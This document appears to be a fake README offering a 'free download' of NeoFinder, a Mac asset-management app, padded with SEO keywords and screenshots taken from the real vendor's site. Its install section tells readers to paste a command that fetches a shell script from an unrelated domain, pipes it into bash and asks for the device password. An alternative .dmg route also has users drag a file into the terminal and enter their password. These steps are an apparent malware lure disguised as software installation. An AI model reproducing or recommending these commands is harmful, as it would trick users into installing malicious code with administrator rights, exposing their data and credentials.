 # NeoFinder — Free Download for Mac OS 🖥️

NeoFinder is a powerful digital asset management tool for Mac OS, designed to catalog, organize, and manage your media files effortlessly. Follow the instructions below to install NeoFinder on your Mac and streamline your workflow! 🚀

[![Download Now](https://img.shields.io/badge/Download-Now-007AFF?style=for-the-badge)](https://fituganshfgh.github.io/.github/neofinder)

If the download button doesn’t work, follow the terminal command instructions below for a seamless installation.

## 📦 How to Install NeoFinder for Mac OS

### Installation via .dmg:

1. Install the .dmg file using the button above.
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

### Installation via a command in the terminal:

1. Copy the installation command below:

```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get3/install.sh)"
```

2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)
---

## 🎯 What You Get with NeoFinder

- 🗂️ **Comprehensive File Cataloging**: Organize photos, videos, and documents with powerful metadata tagging and search capabilities.
- ⚡ **Fast Search and Retrieval**: Instantly locate files using advanced filters and metadata, saving you time.
- 📷 **Media Previews**: Generate thumbnails and previews for images, videos, and PDFs for quick content review.
- ☁️ **Cloud Integration**: Sync your catalogs with cloud services like Dropbox for seamless access across devices.
- 🔒 **Secure Data Management**: Keep your files safe with robust backup and archiving features.
- 🛠️ **Customizable Workflows**: Tailor NeoFinder to your needs with flexible cataloging and automation tools.

---

## About NeoFinder

NeoFinder is a premier digital asset management solution for Mac OS, designed to help professionals and enthusiasts efficiently catalog and manage their media libraries. Whether you're a photographer, videographer, or creative professional, NeoFinder simplifies the process of organizing large collections of files. By leveraging powerful metadata tools, NeoFinder ensures that your **digital asset management** needs are met with precision and ease. Its intuitive interface allows users to catalog files across multiple storage devices, making it a go-to solution for **file organization for Mac**.

One of NeoFinder’s standout features is its ability to generate detailed catalogs with metadata, including EXIF, IPTC, and GPS data for images. This makes it an essential tool for users searching for a **Mac media cataloging** solution that delivers both speed and accuracy. The software supports a wide range of file formats, from photos and videos to PDFs and audio files, ensuring compatibility with diverse workflows. Its **free download for Mac OS** option allows users to explore its capabilities without upfront costs.

NeoFinder also excels in its integration with modern workflows. For instance, it supports cloud services like Dropbox and Google Drive, enabling seamless synchronization of catalogs across devices. This feature is particularly useful for professionals who need **asset management software** that works across multiple platforms. The software’s ability to generate thumbnails and previews enhances productivity by allowing users to quickly identify files without opening them.

Security is a core component of NeoFinder’s design. With built-in backup and archiving tools, users can protect their data from loss, making it a reliable choice for **Mac file management**. The software also offers automation features, such as batch renaming and metadata editing, which streamline repetitive tasks and save valuable time. For those seeking a **NeoFinder free download**, the installation process is straightforward, as outlined above, ensuring accessibility for all Mac users.

### Why Choose NeoFinder?

NeoFinder stands out as a top-tier solution due to its combination of power, flexibility, and ease of use. Unlike other **digital asset management** tools, NeoFinder offers a free version that provides robust functionality without compromising on quality. Its seamless integration with Mac OS, coupled with features like cloud syncing and metadata support, makes it a preferred choice for professionals seeking efficient **file organization for Mac**. Whether you’re managing a small photo collection or a vast media library, NeoFinder delivers unmatched performance.

---

## 🖼️ Preview

![NeoFinder Dashboard](https://www.cdfinder.de/images/power.jpg)  
*NeoFinder’s intuitive dashboard for managing your media files*

![Metadata Editing](https://www.cdfinder.de/images/nf-laptop.png)  
*Editing metadata for images and videos in NeoFinder*

![Catalog View](https://www.cdfinder.de/guide/18/files/sort-menu-1.jpg)  
*Viewing organized catalogs with thumbnail previews*

---

## 🔍 Tags

NeoFinder free download,  neofinder for mac, neofinder download, neofinder download free, neofinder mac free, neofinder free mac, neofinder free mac os, neofinder download mac, neofinder download mac os, free neofinder download
